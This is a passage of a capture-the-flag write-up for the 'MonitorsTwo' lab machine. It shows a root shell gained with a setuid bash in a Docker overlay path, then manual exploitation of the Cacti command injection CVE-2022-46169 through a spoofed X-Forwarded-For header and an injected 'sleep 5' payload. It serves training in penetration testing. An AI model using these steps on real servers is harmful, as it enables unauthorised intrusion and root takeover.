   ```bash
  # change to the above mentioned 'Current Vulnerable Path'
  marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
  # execute the command './bin/bash -p'
  marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
  bash-5.1# id
  uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
  bash-5.1# cat /root/root.txt
  <SNIP>
  ```

![](machine_pwned.png){: width="75%" .normal}

## Extra - Manual exploitation

> Based on IppSec's [video walkthrough](https://www.youtube.com/watch?v=dJfbogs8Yz0&t=8s).

### Initial foothold

We can manually perform [CVE-2022-46169](https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/). Let's remember what needs to be done (based on [Rapid7's post](https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/)):

  1. If `LOCAL_DATA_ID` and/or `HOST_ID` are not set, the module will try to bruteforce the missing value(s). If a valid combination is found, the module will use these to attempt exploitation. 
  2. If `LOCAL_DATA_ID` and/or `HOST_ID` are both set, the module will immediately attempt exploitation. 
  3. During exploitation, the module sends a `GET` request to `/remote_agent.php` with the action parameter set to `polldata` and the `X-Forwarded-For` header set to the provided value for `X_FORWARDED_FOR_IP` (by default `127.0.0.1`).

We can start by intercepting a request via Burp, for example, a `POST` login request using random creds, change the HTTP method to `GET` request and the URL to `/remote_agent.php?action=polldata&local_data_ids[]={local_data_ids}&host_id={host_id}&poller_id=1{payload}`:

> _The URL path can be found [here](https://www.exploit-db.com/exploits/51166)._

![](burp_login_request.png)

![](burp_fatal_error.png)

We get the error `FATAL: You are not authorized to use this service`. Let's start by adding the `X-Forwarded-For` header with the value of `localhost` and see what happens:

![](xForwardedFor.png)

This time, we did not get a `FATAL` error, but a `Validation error` regarding the `host_id` parameter. Let's remove the variables, set all IDs to `1`, and try a simple payload, such as `sleep 5`:

> _The `sleep+5` payload is the URL-encoded version of `sleep 5` payload._

![](sleep_attempt.png)
